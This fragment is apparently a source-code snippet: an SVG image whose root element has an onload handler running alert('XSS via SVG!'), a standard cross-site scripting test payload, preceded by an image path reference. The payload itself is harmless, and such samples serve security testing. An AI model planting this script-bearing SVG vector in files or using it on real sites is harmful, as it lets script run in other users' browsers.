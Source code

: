 <svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS via SVG!')">
  <circle cx="50" cy="50" r="40" fill="red" />
</svg>
